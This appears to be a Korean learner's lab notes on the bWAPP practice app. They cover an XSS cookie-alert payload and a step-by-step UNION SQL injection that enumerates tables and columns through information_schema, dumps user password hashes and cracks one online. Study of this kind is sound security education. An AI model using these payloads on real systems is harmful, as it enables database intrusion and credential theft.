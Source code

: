 ## 1. HTML injection - Reflected(GET)

```jsx
//HTML injection - Reflected(GET)
//First name
<script>
//Last name
alert(document.cookie)</script>
```

이렇게 하면 세션값이 나오는데 해킹이 엄청 쉽다.

```tsx
:~$ cd /var/www/bWAPP
:~$ ls
:~$ vim sqli_1.php
```

하면 소스코드를 볼 수 있다.

## 2.SQL injection(GET/Search)

유저가 Search for a movie에 String을 준다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/157771c2-7ada-4145-94be-b3349c6e7946/_2021-01-24__9.25.00.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/157771c2-7ada-4145-94be-b3349c6e7946/_2021-01-24__9.25.00.png)

sql에서는 if == where로 쓰인다. 약간 이런식으로 보통 쓰인다.

```sql
SELECT * FROM movies WHERE name = + ""
//이렇게 더하기로 이어 버리면 문제가 발생할 수 있다.
```

이건 왜 오류가 발생할까? 취약점을 알아보자.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/02b028d9-623b-4c55-9760-93e62bd236a2/_2021-01-24__9.26.38.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/02b028d9-623b-4c55-9760-93e62bd236a2/_2021-01-24__9.26.38.png)

```sql
WHERE name = 'a' + 'input' + 'b'
//이런식으로 '으로 이어져 짜였을 텐데, 결과적으로 a''b이런식으로 되니까 오류가 남.
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8f0d3a0b-e76b-45fa-8dc9-c1472d4f51b7/_2021-01-24__9.28.29.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8f0d3a0b-e76b-45fa-8dc9-c1472d4f51b7/_2021-01-24__9.28.29.png)

이렇게 완전히 정확하지 않은 단어를 쳤는데도, 값이 나왔다는 건 like문장을 썼다는 것임.

```sql
WHERE LIKE '%' +'유저 인풋'+'%'
```

요런식으로 되어 있다고 한다. 암튼 위에처럼 코드를 함 보자. 

해결하려면

```sql
SELECT * FROM movies WHERE title LIKE '%'#%'
// #을 이용하면 %만 검색(%는 아무 문자열을 쳐도 나오는 와일드 카드)
// 이렇게 하면 #앞에 코드를 넣어서 이용할 수 있다.
SELECT * FROM movies WHERE title LIKE '%' or 1=1 #%'
// 이러면 where 절 자체가 true가 되어 모든 검색결과를 가져 올 수 있다. 
// where 절 안에 union select를 사용 하면 앞에있는 테이블이랑 결과를 합쳐버린다.
SELECT * FROM movies WHERE title LIKE '%' union select 1,2,3,4,5,6,7 #%'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14172b9e-be48-4abc-a78e-f2f9953f52cd/_2021-01-24__9.53.14.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/14172b9e-be48-4abc-a78e-f2f9953f52cd/_2021-01-24__9.53.14.png)

column 개수가 달라서 오류남. 1개로 입력했음. 1,2,3,4,5,6,7 하면 제대로 검색된다. 

movie table은 7개의 정보를 가지고 있다. 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a84987e9-39c3-4d8f-b253-3d77339473dc/_2021-01-24__9.55.08.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a84987e9-39c3-4d8f-b253-3d77339473dc/_2021-01-24__9.55.08.png)

여기 보면 2, 3, 5, 4 이런식으로 title은 2번째 정보, release는 column의 3번째 정보 인것을 알 수 있다. 

그러면 2번째 column에 버전을 한번 출력을 해보자

```sql
SELECT * FROM movies WHERE title LIKE '%' union select 1,@@version,3,4,5,6,7 #%'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/69ba90d9-1f6a-4058-a505-eb9bc5eebd57/_2021-01-24__9.56.59.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/69ba90d9-1f6a-4058-a505-eb9bc5eebd57/_2021-01-24__9.56.59.png)

이번에는 데이터 베이스 안에 테이블의 정보를 담고 있는 테이블(informantion_schema.tables)을 이용해서 다른 테이블의 정보를 알아내보자.

```sql
SELECT * FROM movies WHERE title LIKE '%' union select 1,table_name,3,4,5,6,7 from information_schema.tables #%'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a89cbaca-93e0-470c-8cbb-5b9dd83461d0/_2021-01-24__10.04.28.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a89cbaca-93e0-470c-8cbb-5b9dd83461d0/_2021-01-24__10.04.28.png)

여기서 보면 해킹을 위해 users 테이블이 중요해 보인다. 그렇지만 user 테이블에 column이 뭐가 있는지 아직

모른다. movies 테이블은 안다. column이 Title, Relase, Character, Genre, IMDb 이런식으로 나와있는 걸 알 수 있다. 어떤 column 이 있는지 부터 한번 알아보자.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/377f3dc5-4b25-4125-80c6-a3d4f6bc4888/_2021-01-24__10.04.44.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/377f3dc5-4b25-4125-80c6-a3d4f6bc4888/_2021-01-24__10.04.44.png)

```sql
SELECT * FROM movies WHERE title LIKE '%' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' #%'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/adac94fb-42e3-4523-81e0-20f3c3b496af/_2021-01-24__10.09.15.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/adac94fb-42e3-4523-81e0-20f3c3b496af/_2021-01-24__10.09.15.png)

이러면 db 털렸다.. password를 털수 있게 된다.

```sql
SELECT * FROM movies WHERE title LIKE '%' union select 1,password,3,4,5,6,7 from users #%'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b06383f4-0927-4bdf-a956-b6c4a350ab09/_2021-01-24__10.10.53.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b06383f4-0927-4bdf-a956-b6c4a350ab09/_2021-01-24__10.10.53.png)

이거 해쉬값 처리는 되어 있긴 한데 원문을 알아 낼수 있을 거다 . 아주 쉽게

[Sha1 Decrypt & Encrypt - More than 15.000.000.000 hashes](https://md5decrypt.net/en/Sha1)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5d3a0fee-4d19-4a44-955b-c4b617c75639/_2021-01-24__10.41.37.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5d3a0fee-4d19-4a44-955b-c4b617c75639/_2021-01-24__10.41.37.png)

복호화 결과, 비밀번호는 'bug' . DB를 털어도 비밀번호가 안털리려면 어제 말한 salt 기법을 사용하는 것이 좋다.

추가로, 이거를 막기 위해 특수문자를 앞에 '\' 이스케이프 문자로 감싸주면 된다.

```sql
\'\#
이렇게 하면 아무 의미가 없는 작은 따옴표, #이 된다. 
```

아 뭔말인지 알았다. 

```sql
SELECT * FROM movies WHERE title LIKE '% {input} %'
//beWAPP에서 코드를 확인해보면 코드가 이런식으로 짜져 있는걸 알 수 있다.
//만약에 내가 DB의 비밀번호를 알아 내고자 한다 했을때, '을 검색창에 치면 오류가 뜬다. '%'%' 일때,
//'%'라는게 모든 문자열을 의미하고, %'때문에 syntax 오류가 나는 것이다. 
//그래서 내가 #으로%'을 무시하면, '%'로 모든 문자열이라고 간주한 후, ' 와 #사이에 내가 쿼리문을
//입력하면 그게 실행이 되는 것이다. 삽입되는 자리는 where 자리이다. 

SELECT * FROM movies WHERE title LIKE '%'union select #%'
//이렇게 union select를 했을 때, 다른 테이블과 결과를 합칠 수가 있다. 대신에, movies 테이블의
//column과 합칠 테이블의 column의 개수는 같아야 한다. 우선 무비테이블의 컬럼 개수를 모르니까, 
//한번 알아보는 거임. 

SELECT * FROM movies WHERE title LIKE '%'union select 1,2,3,4,5,6,7 #%'
//하니까 결과가 출력되었고,movies의 컬럼수는 7, 출력된 컬럼은 2,3,5,4번째로, 이걸 활용하면
//다른테이블의 데이터도 가져올 수 있다. 다른 테이블이 뭐가 있을까?
//mysql에서는 테이블의 정보를 담고 있는 테이블이 있다. information_schema.tables
//2번째 테이블에 하는거는 그냥 맨앞이라서 걍 한거다!. 3,5,4해도 상관 없다!

SELECT * FROM movies WHERE title LIKE '%' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' #%'
//이렇게 하면, 2번째 컬럼에 유저의 컬럼 정보를 주게 된다. 
//password라는 컬럼이 있고, 컬럼네임 부분을 password로 바꾸어 검색하면 된다. 
//password 컬럼과, id 컬럼을 함께 가져와 보자. 

SELECT * FROM movies WHERE title LIKE '%' union select 1,password,id,4,5,6,7 from users #%'
//이러면 아이디랑 비밀번호 알게 되고, salt 기법이 적용 안된거라 decrypt 사이트가서 하나 하면 쉽게 털게 된다. 
```
